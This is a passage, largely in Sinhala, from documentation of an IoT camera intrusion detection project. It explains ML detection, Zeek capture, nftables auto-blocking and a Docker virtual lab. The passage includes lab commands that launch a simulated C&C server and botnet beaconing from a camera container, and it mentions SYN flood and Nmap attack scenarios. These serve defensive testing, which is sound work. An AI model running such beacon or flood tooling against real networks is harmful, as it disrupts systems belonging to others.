  - **නීතිය 3 (Repeats පරීක්ෂාව):** එකම target එකට, එකම පන්තියේ block-candidate alerts තත්පර 60 ක් ඇතුළත අවම වශයෙන් 3 ක් ආවාද? (මෙය පියවර 3 හි `pair_fail_1h` ගණනට වඩා වෙනස් ගණනකි.)
  - **නීතිය 4 (ප්‍රහාරයේ වර්ගය අනුව පියවර):**
    - C&C නම් $\rightarrow$ පිටත C&C server එක (destination) **Block** කරන්න (`block_dst`).
    - Port Scan නම් $\rightarrow$ scan කරන පිටත IP එක (source) **Block** කරන්න (`block_src`).
    - DDoS flood නම් $\rightarrow$ පිටත source එක **Rate-Limit** කරන්න (`limit_src`: තත්පරයට packets 200 ට වැඩි කොටස drop කරයි, D-055).
- **ක්‍රියාත්මක වන කේතය:**
  - [`core_engine/decision_engine.py`](<file:///d:/intrusion%20detection/core_engine/decision_engine.py>)
  - [`core_engine/response_policy.py`](<file:///d:/intrusion%20detection/core_engine/response_policy.py>)
- **එළියට එන දේ (Output - PolicyDecision):**
  - `action_type`: `"block"`
  - `target_ip`: `"10.10.10.50"`
  - `direction`: `"outbound"` (එනම් `block_dst` set එක භාවිත වේ)
  - `duration_minutes`: 30
  - `reason_code`: `"AUTO_CNC_DEST_BLOCK"`

---

### පියවර 6: Router Firewall එකට විධානය යවා Block කිරීම

- **මොකක්ද වෙන්නේ?**

  - Python engine එක Router එකට SSH (Port 2222) මඟින් සම්බන්ධ වේ.
  - Router එකේ Linux `nftables` firewall එකට drop rule එක ඇතුළත් කරයි.
- **ක්‍රියාත්මක වන කේතය:** [`core_engine/firewall/router_adapter.py`](<file:///d:/intrusion%20detection/core_engine/firewall/router_adapter.py>)
- **Router එක තුළ ධාවනය වන Linux Command එක:**

  ```bash
  nft add element inet ids block_dst { 10.10.10.50 timeout 30m }
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
  >
  > - **`nft`:** Linux මෙහෙයුම් පද්ධතියේ ඇති Netfilter Tables (Firewall) මෙවලමයි.
  > - **`add element`:** පවතින Firewall ලැයිස්තුවකට (Set) අලුත් IP ලිපිනයක් ඇතුළත් කිරීමේ විධානයයි.
  > - **`inet ids`:** IPv4 සහ IPv6 දෙකටම අදාළ වන පරිදි සාදා ඇති `ids` නම් ප්‍රධාන Firewall Table එකයි.
  > - **`block_dst`:** අවහිර කළ යුතු Destination IP ලිපින රඳවා ගන්නා Drop Set එකයි.
  > - **`{ 10.10.10.50 timeout 30m }`:** පහර දුන් Attacker ගේ IP එක වන `10.10.10.50` මිනිත්තු 30 ක (තත්පර 1800) කාල සීමාවක් සමඟ set එකට ඇතුළත් කරයි. කාලය අවසන් වූ සැණින් Linux kernel එක විසින් මෙම element එක ඉබේම ඉවත් කරයි. (`nft list set` මඟින් ඉතිරි කාලය `expires 29m45s` ලෙස බැලිය හැක.)
  >
- **එළියට එන දේ (Output / ප්‍රතිඵලය):**

  - Router kernel එක විසින් `10.10.10.50` දෙසට යන සියලු packets එතැනින්ම Drop කරයි.
  - හැකර්ගේ ප්‍රහාරය අවසන් වේ.
  - කැමරාවේ සිට NVR එකට යන video stream එකට කිසිදු හානියක් සිදු නොවේ.
  - තත්පර 1800 (මිනිත්තු 30) කට පසු firewall rule එක ඉබේම expire වී ඉවත් වේ.

---

### පියවර 7: Database එකට සහ Dashboard එකට යැවීම

- **මොකක්ද වෙන්නේ?**
  - ප්‍රහාරයේ සම්පූර්ණ විස්තරය MongoDB database එකේ `attack_events` collection එකේ save කරයි.
  - Block කළ බව `blocklist` collection එකේ save කරයි.
  - Python Flask backend එක (`core_engine/app.py`) WebSocket (Socket.IO) මඟින් Browser එකට message එකක් push කරයි.
- **Frontend කේතය:** [`my-app/src/pages/LiveAlerts.js`](<file:///d:/intrusion%20detection/my-app/src/pages/LiveAlerts.js>)
- **එළියට එන දේ (Output - Screen එකේ පෙනෙන දේ):**
  - Browser එක refresh නොකරම:
    - **Live Alerts පිටුව:** `CnC` class pill එක, `Confidence: 91%`, `192.168.50.30:<port> → 10.10.10.50:6667` (source කැමරාව, destination C&C server), සහ `RESPONSE: BLOCKED` badge එක සහිත alert කාඩ්පතක් දිස්වේ (socket event: `new_event`).
    - **Blocklist / Mitigations පිටුව:** `10.10.10.50` ලිපිනය, block එක අවසන් වන වේලාව (**EXPIRES AT** තීරුව - ස්ථාවර වේලාවක්, countdown එකක් නොවේ) සමඟ දිස්වේ.

---

# 3. Dashboard එක පද්ධතියට සම්බන්ධ වන ආකාරය සහ එහි පිටු 7 (The Dashboard Architecture)

බොහෝ දෙනෙකු අසන වැදගත්ම ප්‍රශ්නයක් වන්නේ: **"Dashboard එක මේකට කොහෙද සම්බන්ධ වෙන්නේ? ඒක නිකන්ම UI එකක්ද නැත්නම් සැබෑ පද්ධතියට සම්බන්ධ එකක්ද?"** යන්නයි.

### අ) Dashboard එක සහ Backend එක අතර සම්බන්ධතාවය:

```
[React Web Dashboard] 
       ▲  │
       │  │ (1. REST API: GET /api/summary, POST /api/auth/login)
       │  │ (2. WebSocket: ws://localhost:5000/socket.io/)
       │  ▼
[Unified Flask + Socket.IO Server (core_engine/app.py: Port 5000)]
       │
       ├─ MongoDB (virtual lab database: iot_ids_lab, 9 collections)
       ├─ Live Pipeline Runner (runner.py)
       └─ Router Firewall Adapter (router_adapter.py over SSH)
```

1. **Authentication (ආරක්ෂිත Login වීම):**
   - User නම `labadmin` සහ Password එක `lab_virtual/keys/dashboard_login.txt` ගොනුවෙන් ලබාගෙන `POST /api/auth/login` වෙත යවයි.
   - Backend එක විසින් ආරක්ෂිත **JWT Token** එකක් Dashboard එකට ලබාදෙයි.
2. **WebSocket Real-Time Push (FR-04):**
   - Dashboard එක Browser එකේ විවෘත කළ සැණින් WebSocket එකක් සාදාගෙන Backend එකට සම්බන්ධ වේ.
   - ප්‍රහාරයක් පැමිණි විට, Backend එකෙන් `socketio.emit("new_event", data)` යැවූ සැණින්, **Browser එක refresh නොවී තත්පරයෙන් පංගුවක් ඇතුළත Screen එක update වේ.**

---

### ආ) Dashboard එකෙහි ඇති පිටු 7 (The 7 Canonical Pages):

| #           | පිටුව (Page)        | සම්බන්ධ වන Backend Endpoint එක              | එයින් කරන කාර්යය                                                                                                                        |
| ----------- | ------------------------ | ------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| **1** | **Overview** (`/overview`) | `GET /api/summary` | මනින ලද latency (median / 95%), pipeline එක සැකසූ flows ගණන, පැය 24 තුළ Benign flows, සක්‍රිය blocks සහ rate-limits, model version පෙන්වයි. |
| **2** | **Live Alerts** (`/alerts`) | `socket.on("new_event")` | ප්‍රහාර හඳුනාගත් සැණින් refresh නොකර alert කාඩ්පත (`MODEL PREDICTION` / `CONFIRMED INCIDENT`, class, confidence, `RESPONSE: ...`) ගෙනෙයි. |
| **3** | **Attack History** (`/history`) | `GET /api/events` | MongoDB හි තැන්පත් කර ඇති අතීත ප්‍රහාර සියල්ල search සහ filter කිරීමට ඉඩ දෙයි. |
| **4** | **Blocklist / Mitigations** (`/mitigations`) | `GET /api/blocklist`, `POST /api/blocklist`, `DELETE /api/blocklist/<ip>` | දැනට block / rate-limit කර ඇති IP සහ ඒවා අවසන් වන වේලාව (**EXPIRES AT**) පෙන්වයි. මෙතැනින් **Manual Block** සහ **Manual Unblock** කළ හැක. |
| **5** | **Devices & Scans** (`/devices`) | `GET /api/devices`, `POST /api/scans` | සැබෑ Nmap scan මඟින් (`ids-lab-scanner`, D-057) ජාලයේ උපාංග සහ "possible camera" උපාංග හඳුනාගනී (FR-05). |
| **6** | **Logs & Export** (`/export`) | `GET /api/logs/export`, `GET /api/logs` | ප්‍රහාර, response actions සහ audit records (`system_logs`) RFC 4180 CSV / JSON ලෙස බාගත කිරීමට, සහ audit සටහන් වගුව බැලීමට ඉඩ දෙයි (FR-07, FR-08). |
| **7** | **Settings** (`/settings`) | `GET /api/settings`, `PUT /api/settings` | Allowlist, min confidence, repeats (3), window (60 s), උපරිම rule කාලය (30 min) වෙනස් කිරීමට ඉඩ දෙයි; සෑම වෙනසක්ම audit වේ. |

---

# 4. Virtual Lab එක Docker මඟින් නිර්මාණය කර ඇති ආකාරය සහ එහි සාක්ෂි (Virtual Lab Architecture & Proofs)

## 4.1 Virtual Lab එක සකස් කර ඇති ආකාරය සහ එය ක්‍රියාත්මක වන සම්පූර්ණ යාන්ත්‍රණය (How it is Built & Operates)

Supervisor විසින් ඔබෙන්: **"ඔයාලා මේ Virtual Lab එක හැදුවේ කොහොමද? කේබල් නැතුව ජාලයක් හැදෙන්නේ කොහොමද? Containers එකිනෙකා එක්ක සහ Windows Host එකේ Python කේතය එක්ක සම්බන්ධ වෙලා වැඩ කරන්නේ කොහොමද?"** කියා ඇසුවහොත් පැහැදිලි කිරීමට අවශ්‍ය සියලුම ගැඹුරු තාක්ෂණික තොරතුරු මෙන්න:

---

### 4.1.1 ඇයි අපි Docker Virtual Lab එකක් හැදුවේ? (Motivation)

1. **පරිපූර්ණ පරීක්ෂණ පරිසරය (Controlled Testbed - Proposal Section 5.1):** අපේ පර්යේෂණ සැලැස්මේ Section 5.1 අනුව, ජාලයේ සියලුම උපාංග (Camera, NVR, Admin PC, Router, Attacker, Sensor) එකිනෙක සම්බන්ධ වන ආකාරය සම්පූර්ණයෙන්ම සත්‍යාපනය කිරීම සඳහා මෙම Virtual Lab එක නිර්මාණය කරන ලදී.
2. **ශුන්‍ය ව්‍යාජ දත්ත (Zero Synthetic / Fake Data):** මෙහි කිසිදු dummy හෝ fake packet generator එකක් භාවිතා නොවේ. Docker Containers මඟින් සැබෑ Linux Network Namespaces සහ සැබෑ TCP/IP socket connections නිර්මාණය කරමින් සැබෑ ජාල පරිසරයක් තනි පරිගණකයක් ඇතුළේ සාදයි.

---

### 4.1.2 Virtual Switches සහ Virtual Cables ක්‍රියාත්මක වන ආකාරය (Virtual Bridges & Virtual Cables)

බොහෝ දෙනෙකුට ඇතිවන ප්‍රධානතම ගැටලුවක් වන්නේ: *"කේබල් නැතුව කොහොමද මේ පරිගණක ඇතුළේ packets යන්නේ?"* යන්නයි.

```
[Camera Container: 192.168.50.30]              [NVR Container: 192.168.50.20]
       │ (eth0 interface)                             │ (eth0 interface)
       │                                              │
       ▼                                              ▼
  (veth_cam cable)                              (veth_nvr cable)
       │                                              │
       └───────────────► [Linux Bridge: br-ids-lan] ◄─┘
                            (Virtual Switch)
                                   │
                     (Promiscuous Sniffing / Mirror Port)
                                   ▼
                        [Zeek Sensor Container]
```

1. **Linux Bridge = Virtual Switch:**
   - Docker මඟින් Linux kernel එක තුළ **`br-ids-lan`** සහ **`br-ids-out`** නමින් Virtual Network Switches (Bridges) දෙකක් සාදයි.
   - Switch එකක ports ඇති සේම, මෙම Bridge එකටද ඕනෑම container එකක් සම්බන්ධ කළ හැක.
2. **Virtual Ethernet Cables (`veth` pairs):**
   - Linux kernel එක මඟින් `veth` (Virtual Ethernet) නමින් දෙකෙළවරක් ඇති අතථ්‍ය කේබල් සාදයි.
   - එහි එක් කෙළවරක් Container එක තුළට දමා **`eth0`** ලෙස නම් කරයි. අනෙක් කෙළවර **`br-ids-lan`** bridge එකට සවි කරයි.
3. **දත්ත ගමන් කරන ආකාරය:**
   - කැමරාව NVR එකට වීඩියෝවක් යවන විට, එය කැමරාවේ `eth0` හරහා `veth` කේබලය දිගේ ගොස් `br-ids-lan` (Switch) එකට වැටේ. Bridge එක මඟින් එම packet එක NVR එකේ `veth` කේබලය හරහා NVR එකේ `eth0` වෙත යවයි. සැබෑ binary network packets ජාලය හරහා ගමන් කරයි.

---

### 4.1.3 ජාල 3 ක බෙදීම (The 3 Isolated Networks in `docker-compose.yml`)

[`lab_virtual/docker-compose.yml`](<file:///d:/intrusion%20detection/lab_virtual/docker-compose.yml>) හි ජාල 3 ක් අර්ථ දක්වා ඇත:

| ජාලය (Network)    | Subnet              | Linux Bridge නම | ජාලයේ කාර්යභාරය (Network Role)                          | සම්බන්ධ වන උපාංග                                           |
| :-------------------- | :------------------ | :---------------- | :-------------------------------------------------------------------- | :----------------------------------------------------------------------- |
| **`camlan`**  | `192.168.50.0/24` | `br-ids-lan`    | ආරක්ෂිත කැමරා ජාලය (Camera Isolated LAN)              | Camera (`.30`), NVR (`.20`), Admin PC (`.10`), IDS Scanner (`.5`), Router LAN (`.1`); bridge එකේම ලිපිනය `.254` (Docker) |
| **`outside`** | `10.10.10.0/24`   | `br-ids-out`    | පිටත අන්තර්ජාලය / WAN ජාලය (Outside Network)        | Attacker (`.50`), Cloud Server (`.123`), Router WAN (`.1`)         |
| **`mgmt`**    | `172.31.250.0/24` | `docker bridge` | ආරක්ෂක නිලධාරියාගේ Dedicated Management Channel එක | Windows Host $\leftrightarrow$ Router SSH (Port 2222)                  |

---

### 4.1.4 Router එක සහ Zeek Sensor එක ක්‍රියාත්මක වන සුවිශේෂී ආකාරය

#### අ) Router Container එක (`ids-lab-router`):

- **ද්විත්ව ජාල කාඩ්පත් (Dual-Homed):** Router එක එකවර ජාල දෙකටම සම්බන්ධ වේ (`10.10.10.1` පිටත ජාලයට සහ `192.168.50.1` ඇතුළත කැමරා ජාලයට).
- **IP Forwarding සක්‍රියයි:** `net.ipv4.ip_forward: "1"` මඟින් එක් ජාලයකින් එන packets අනෙක් ජාලයට මාරු කරයි.
- **විශේෂත්වය — NO NAT (NAT රහිතයි):** සාමාන්‍ය ගෙදර router එකකදී පිටතින් එන IP එක router එකේ IP එකට වෙනස් වේ (NAT). නමුත් අපේ Router එකේ **NAT ක්‍රියාත්මක නොවේ**. එබැවින් Attacker (`10.10.10.50`) එවන packet එකේ සැබෑ පිටත IP එක නොවෙනස්ව කැමරාව (`192.168.50.30`) වෙතම ළඟා වේ!
- **සැබෑ Linux Firewall:** Router එක තුළ Linux kernel එකේ `nftables` firewall එක ක්‍රියාත්මක වන අතර, එහි [`sensor/ids_router.nft`](<file:///d:/intrusion%20detection/sensor/ids_router.nft>) ruleset එක load කර ඇත.

#### ආ) Zeek Sensor Container එක (`ids-lab-sensor`):

- **විශේෂත්වය — `network_mode: host`:** මෙයට lab උපාංගයක් ලෙස IP එකක් නැත. එය Docker host එකේ ජාලය තුළ ධාවනය වී `br-ids-lan` bridge එකට කෙලින්ම සවන් දෙයි. (Docker විසින් bridge එකටම `192.168.50.254` ලිපිනය දෙයි; Nmap scan එකේ `.254` ලෙස පෙනෙන්නේ එයයි.)
- **Promiscuous Mode (SPAN / Mirror Port):** Zeek එක `br-ids-lan` bridge එකට කෙලින්ම Promiscuous mode එකෙන් සවන් දෙයි (`zeek -C -i br-ids-lan /lab/local.zeek`; `-C` = checksum errors නොසලකා හරින්න).
- කැමරාව සහ NVR එක අතර, හෝ Attacker සහ කැමරාව අතර යන සියලුම binary ethernet frames වල පිටපතක් (mirror copy) Zeek එකට ලැබේ. කිසිදු උපාංගයක් Zeek sensor එකක් ජාලයේ ඇති බව නොදනී!
- Zeek එක එම packets වලින් protocol header විග්‍රහ කර, connections අවසන් වූ සැණින් JSON log පේළියක් ලෙස **`lab_virtual/zeek_logs/conn.log`** ගොනුවට ලියයි.

---

### 4.1.5 Containers තුළ සැබවින්ම ධාවනය වන වැඩසටහන් ([`camera_sim.py`](<file:///d:/intrusion%20detection/tests/lab_scenarios/camera_sim.py>))

Docker Containers තුළ නිකන්ම හිස් OS එකක් නොවේ; ඒවා තුළ සැබෑ network socket servers සහ clients ධාවනය වේ:

1. **IP Camera (`ids-lab-camera`):**
   - ධාවනය වන්නේ: `python camera_sim.py normal --cloud 10.10.10.123`
   - **Port 80 (HTTP Server):** Admin PC එකට Web UI එක පෙන්වයි (`<title>Lab IP Camera - Live Web Interface</title>`, bytes 5,478) සහ `/api/status`.
   - **Port 554 (RTSP-වැනි Stream Server):** `OPTIONS` / `DESCRIBE` / `SETUP` වලට කෙටි RTSP පිළිතුරක් දෙයි. NVR එක `PLAY` යැවූ පසු තත්පරයකට ~200 KB ක **අහඹු bytes** (සැබෑ H.264 වීඩියෝවක් නොවේ) socket එක හරහා නොකඩවා යවයි.
   - සෑම තත්පර 30 කට වරක් Cloud Server එකට TCP 443 හරහා කෙටි status පණිවිඩයක් (සරල JSON පේළියක්; TLS/HTTPS නොවේ), සහ සෑම තත්පර 60 කට වරක් time request එකක් (UDP 123) සහ name lookup එකක් (UDP 53) යවයි.
2. **NVR Recorder (`ids-lab-nvr`):**
   - ධාවනය වන්නේ: `python camera_sim.py nvr --camera 192.168.50.30`
   - කැමරාවේ `192.168.50.30:554` වෙත TCP connection එකක් හදා `PLAY` යවා stream එක නොකඩවා ලබාගනී. සෑම මිනිත්තු 5 කට වරක් connection එක වසා නැවත සාදා `NVR: recorded 58.6 MB` ලෙස log කරයි (පළමු පේළිය lab එක ආරම්භ කර මිනිත්තු 5 කට පසුවයි; ගොනුවක් ලෙස වීඩියෝවක් ගබඩා නොකරයි).
3. **Admin PC (`ids-lab-admin`):**
   - ධාවනය වන්නේ: `python camera_sim.py admin --camera 192.168.50.30`
   - සෑම තත්පර 60 කට වරක් කැමරාවේ Port 80 හි `/` සහ `/api/status` වෙත requests යවයි (live viewing ලෙස).
4. **Attacker Laptop (`ids-lab-attacker`):**
   - Alpine Linux මත **Nmap** පමණක් ඇති container එකකි (`lab_virtual/attacker/Dockerfile`).
   - එම IP එකම (`10.10.10.50`) බෙදාගන්නා **`ids-lab-attack-server`** (Python) තුළ: SYN flood script එක (`syn_flood.py`), test program එක දෙන web server එක (port 80), සහ lab C&C server එක (port 6667, `lab_server.py --role cnc`). C&C beacons යවන්නේ attacker නොව **කැමරාවයි** (`camera_sim.py bot`).
   - Router එක හරහා (`10.10.10.1`) කැමරා ජාලයට පිවිසීමට routing table එක සකසා ඇත (`ip route add 192.168.50.0/24 via 10.10.10.1`).

---

### 4.1.6 Docker Virtual Lab එක සහ Windows Host එකේ Python IDS එක අතර පාලම් 3 (The 3 Bridges)

බොහෝ දෙනෙකු අසන වැදගත්ම ප්‍රශ්නයක් වන්නේ: **"අපේ AI Model එක සහ Python IDS එක දුවන්නේ කොහෙද? ඒක Docker ඇතුළේද? නැත්නම් Windows එකේද? ඒ දෙක සම්බන්ධ වෙන්නේ කොහොමද?"** යන්නයි.

**පිළිතුර:**
අපේ ප්‍රධාන IDS Engine එක ([`core_engine/app.py`](<file:///d:/intrusion%20detection/core_engine/app.py>)), Random Forest AI Model එක, MongoDB, සහ Decision Engine එක ධාවනය වන්නේ **ඔබගේ Windows Host පරිගණකයේ `.venv` එක තුළය!**

එය Docker Virtual Lab එක සමඟ සම්බන්ධ වන්නේ පහත පාලම් 3 හරහාය:

```
┌────────────────────────────────────────────────────────┐
│  Windows Host PC (.venv)                               │
│                                                        │
│  [1. Live Pipeline Runner]  ◄──┐ (පාලම 1: Log Tailing) │
│           │                    │                       │
│           ▼                    │                       │
│  [2. AI Model v3.1.0]          │                       │
│           │                    │                       │
│           ▼                    │                       │
│  [3. Decision Engine]          │                       │
│           │                    │                       │
│           ├────────────────────┼──────────┐            │
│           │                    │          │            │
└───────────┼────────────────────┼──────────┼────────────┘
            │                    │          │
   (පාලම 2: SSH :2222)           │   (පාලම 3: WebSockets :5000)
            │                    │          │
            ▼                    │          ▼
┌───────────────────────┐        │   ┌───────────────────┐
│ Docker: ids-lab-router│        │   │ React Web Browser │
│ (nftables drop applied│        │   │ (Live Screen Push)│
└───────────────────────┘        │   └───────────────────┘
                                 │
                     ┌───────────────────────┐
                     │ Docker: ids-lab-sensor│
                     │ (writes to conn.log)  │
                     └───────────────────────┘
```

1. **පාලම 1: දත්ත ලබාගැනීම (Data Ingestion - Log File Tailing):**
   - Docker එකේ Zeek sensor එක log ලියන්නේ Docker volume එකක් ලෙස Windows folder එකකට mount කර ඇති `lab_virtual/zeek_logs/conn.log` ගොනුවටය.
   - Windows එකේ දුවන Python `runner.py` එක මෙම ගොනුව තත්‍ය කාලීනව (line-by-line file tailing) කියවයි.
2. **පාලම 2: Firewall එක පාලනය කිරීම (Mitigation Control - SSH Port 2222):**
   - Router container එකේ Port 22 (SSH) අපේ Windows Host එකේ `127.0.0.1:2222` වෙත map කර ඇත.
   - Windows Python එකේ ඇති `router_adapter.py` මඟින් SSH key එක (`lab_virtual/keys/router_admin`) භාවිතයෙන් Router එකට රහසිගතව සම්බන්ධ වී Linux command එකක් ධාවනය කරයි:
     `nft add element inet ids block_dst { 10.10.10.50 timeout 30m }`
3. **පාලම 3: පරිශීලකයාට පෙන්වීම (SOC Dashboard - HTTP & WebSockets Port 5000):**
   - Windows Host එකේ Port 5000 මත Unified Flask + Socket.IO Server එක ධාවනය වේ.
   - ඔබගේ Browser එක (Chrome) මඟින් `http://localhost:5000` විවෘත කළ විට WebSocket සම්බන්ධතාවයක් ගොඩනැගේ. ප්‍රහාරයක් හඳුනාගත් සැණින් Screen එකට push notification එක යවයි (Zeek පේළිය කියවූ සිට median ~0.1–0.2 s).

---

### 4.1.7 සජීවී ප්‍රහාරයක් කෙලින්ම දියත් වන ආකාරය (Direct Attack Execution)

ඔබ Terminal එකේ කෙලින්ම සැබෑ C&C ප්‍රහාරක විධානයන් මෙසේ ධාවනය කරන විට:

```powershell
# 1. Attacker මැෂිමේ C&C Master Server එක (Port 6667) විවෘත කිරීම:
docker exec -d ids-lab-attack-server python -u /lab/lab_server.py --role cnc --cnc-open-after 120

# 2. ආසාදිත කැමරාවෙන් Attacker C&C Server එක (10.10.10.50) වෙත Botnet Beacons යැවීම:
docker exec -d ids-lab-camera python -u /lab/camera_sim.py bot --server 10.10.10.50 --every 5 --session 30 --duration 90
```

> **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
>
> - **`docker exec -d ids-lab-attack-server ...`:** පිටත ජාලයේ Attacker Container එක මත Port 6667 IRC/Botnet Master C&C Server එක Background එකේ (`-d`) සක්‍රිය කරයි.
> - **`docker exec -d ids-lab-camera ...`:** ආසාදිත කැමරාව තුළින් පිටත Attacker IP එක (`10.10.10.50`) වෙත සෑම තත්පර 5 කට වරක්ම Outbound Beacons යැවීම ආරම්භ කරයි.
> *(සටහන: මෙය ස්වයංක්‍රීයව run කර වාර්තාවක්ද සෑදීමට `.venv\Scripts\python.exe lab_virtual\lab.py scenario 4` විධානයද භාවිත කළ හැක).*

සිදුවන්නේ කුමක්ද?

1. `lab.py` වැඩසටහන විසින් Attacker මැෂිම මත C&C Server එකක් (`10.10.10.50:6667`) විවෘත කරන අතර, ආසාදිත කැමරාවට (`ids-lab-camera`) අණ කරයි පිටත ඇති එම C&C Server එක වෙත වරින් වර Botnet Beacons යවන ලෙස.
2. කැමරාව විසින් සැබෑ network packets හදමින් Router එක හරහා පිටත C&C Server එක (`10.10.10.50:6667`) වෙත Outbound සම්බන්ධතාවයක් ඇති කරගැනීමට උත්සාහ කරයි.
3. `br-ids-lan` bridge එකේ ඇති Zeek Sensor එක කැමරාවෙන් පිටතට යන මේ packets අල්ලාගෙන `conn.log` හි ලියයි.
4. Windows Host එකේ `runner.py` එක ඒක කියවා, Feature 27 ක් හදා, Random Forest Model v3.1.0 එකට දී C&C ප්‍රහාරය (Outbound Beaconing) හඳුනාගනී.
5. Decision Engine එක විසින් SSH Port 2222 හරහා Router එකට විධානය යවා පිටත ඇති C&C Server IP එක (`10.10.10.50`) තත්පර 1800 කට `block_dst` set එකට දමා block කරයි. කැමරාව (`192.168.50.30`) Local Network එකේ ඇති බැවින් කිසිවිටෙකත් block නොවේ.
6. Socket.IO හරහා ඔබගේ Browser එකේ ඇති Dashboard එකට Alert එක යවයි.

---

## 4.2 සෑම කොටසක්ම තනි තනියෙන් පරීක්ෂා කර පෙන්වන සාක්ෂි (Component-by-Component Proofs)

පර්යේෂණ යෝජනාවලියේ (Research Proposal) අඩංගු **ප්‍රධාන අරමුණු (Aim & Objectives - Table 3)**, **ක්‍රියාකාරී අවශ්‍යතා (Functional Requirements - Table 7)**, **පර්යේෂණ ගැටලු (Research Questions RQ1–RQ5)**, **ප්‍රධාන උපකල්පනය (Hypothesis H1)**, **පිළිගැනීමේ නිර්ණායක (Acceptance Criteria - Table 9)**, සහ **පාලිත පරීක්ෂණ අවස්ථා (Controlled Scenarios - Table 10)** අපේ පද්ධතිය තුළ Virtual Lab එක තුළ ප්‍රායෝගිකව ක්‍රියාත්මක වන බව Supervisor (Dr. Matheeh & Dr. Amarakeerthi) ඉදිරියේ පෙන්වීමට අවශ්‍ය **පරීක්ෂණ 13 (4.2.0 – 4.2.12)** සහ 4.3 අත්පොත පහත දැක්වේ.

---

### 📊 පර්යේෂණ යෝජනාවලිය සහ ප්‍රායෝගික සාක්ෂි අතර සෘජු සබඳතාව (Proposal Alignment Master Matrix)

Supervisor ඉදිරියේ පද්ධතිය පෙන්වන විට, **"මේ කරන පරීක්ෂණයෙන් Proposal එකේ මොන Objective එකද / මොන Requirement එකද සම්පූර්ණ වෙන්නේ?"** යන්න ක්ෂණිකව මතක් කරගැනීමට පහත වගුව භාවිතා කරන්න:

| පරීක්ෂණ අංකය & නම                  | Proposal හි අරමුණ (Objective - Table 3)             | ක්‍රියාකාරී අවශ්‍යතාවය (Requirement - Table 7)                     | පර්යේෂණ ගැටලුව / උපකල්පනය (RQ / H1 / Table 9)                  | පරීක්ෂණ අවස්ථාව (Table 10 Scenario) | මෙමඟින් ඔප්පු කරන නිශ්චිත සාක්ෂිය (Core Scientific Proof)                                                                         |
| :---------------------------------------------- | :--------------------------------------------------------- | :-------------------------------------------------------------------------------------- | :---------------------------------------------------------------------------------- | :------------------------------------------------ | :------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **4.2.0: Cold Start Lifecycle**           | **O4, O6** (Integration & Performance)               | System Integration & Recovery                                                           | **Table 9** (Reliability & Clean Recovery)                                    | Pre-requisite                                     | බිංදුවේ සිට මුළු පද්ධතියම (Bridges, Containers 11, IDS Pipeline, Dashboard) එකවර ක්‍රියාත්මක කරගත හැකි බව.      |
| **4.2.1: Camera Services**                | **O4** (Monitoring & Environment)                    | Section 5.1 (Camera Specification)                                                      | **Section 5.1 & Table 10**                                                    | **Scenario 1** (Normal Baseline)            | කැමරාව තුළ Web (Port 80) සහ Video (Port 554 RTSP) සේවාවන් සක්‍රියව පවතින බව.                                                  |
| **4.2.2: NVR Video Ingestion**            | **O5** (Safe Operation & Policy)                     | Section 5.1 (NVR Recorder)                                                              | **Table 9** (Benign Safety: Zero Video Interruption)                          | **Scenario 1** (Continuous Stream)          | සෑම මිනිත්තු 5 segment එකක්ම සම්පූර්ණ 58.6 MB ලෙස කැමරාවේ සිට NVR එකට ගලා එන බව (stream එක නොකැඩේ; simulated data).               |
| **4.2.3: Admin PC Web GUI**               | **O4, O5** (Management Plane)                        | Section 3.6 (Device Management Plane)                                                   | **Section 3.6 & FR-05**                                                       | **Scenario 1** (Admin Management)           | කැමරාවේ Web UI එක (Port 80) Admin PC එකට විවෘත වන බව සහ සැබෑ බ්‍රවුසරයකින් දර්ශනය වන බව.                     |
| **4.2.4: Zeek Sensor Sniffing**           | **O3** (Live Flow Feature Generation)                | **FR-01 (Must)**: Network Packet Capture & Flow Extraction                        | **RQ3** (Feature Alignment) & **FR-01 Schema Test**                     | Continuous / Passive SPAN                         | Zeek විසින් switch එකෙන් live packets කියවා `conn.log` ලියන බව (ShADadfF flags, ~1,270 packets / ~11.8 MB per minute, 0 dropped).                       |
| **4.2.5: Router nftables Firewall**       | **O5** (Controlled Response & Allowlist)             | **FR-06 (Must)**: Firewall Rule Engine & **FR-07 (Must)**: Allowlist Safety | **RQ5** (Safety Rules preventing camera cut-off)                              | Firewall Invariant                                | Router එකේ allowlist (Router, Sensor, Admin, NVR) සහ timed auto-expiry drop sets kernel මට්ටමේ ක්‍රියාත්මක බව.                               |
| **4.2.6: Attacker Port Scan**             | **O6** (Attack Testing & Detection)                  | **FR-02 (Must)**: PortScan class from live flows                                   | **RQ2** (Scanning Class) & **Table 10 Scenario 2**                      | **Scenario 2** (Nmap Port Scan)             | පිටත Attacker Router එක හරහා subnet එක scan කළ විට Zeek එය අල්ලාගෙන PortScan alert එකක් (≈0.88) ලැබෙන බව.                                                   |
| **4.2.7: IDS Pipeline & Latency**         | **O2** (ML Detection) & **O6** (Speed/Latency) | **FR-02 (Must)**: Multi-class ML & **FR-03 (Must)**: DB Storage             | **RQ4** & **Table 9 Latency Target** (Median decision $< 2\text{ s}$) | Telemetry Baseline                                | Model v3.1.0 ධාවනය වන බවත්, මනින ලද median latency එක ~0.1–0.2 s ($< 2.0\text{ s}$) බවත් තහවුරු වීම.            |
| **4.3.2: DDoS SYN Flood & Rate-Limit**     | **O5, O6** (Autonomous Rate-Limiting)               | **Table 5 & 10** (DDoS Mitigation) & Rule D-055                                          | **RQ4, RQ5** & **Table 10 Scenario 3**                                  | **Scenario 3** (DDoS SYN Flood)             | Attacker SYN Flood (1000 pkts/s) එල්ල කරන විට, Router එකෙන් Rate-Limit කර කැමරා සේවාව (NVR RTSP) සුරැකීම.    |
| **4.2.8: C&C Autonomous Block**           | **O4, O5** (Automated Mitigation)                    | **FR-04 (Must)**: Live Socket.IO & **FR-06 (Must)**: Router Auto Block      | **RQ4** (End-to-End Time) & **Table 10 Scenario 4**                     | **Scenario 4** (C&C Botnet Beacons)         | C&C (0.86–0.93) හඳුනාගෙන, 60 s තුළ alerts 3 කට පසු Router එකේ `block_dst` එකට මිනිත්තු 30 කට දමා, refresh නොකර Dashboard Alert එක වැටීම.                    |
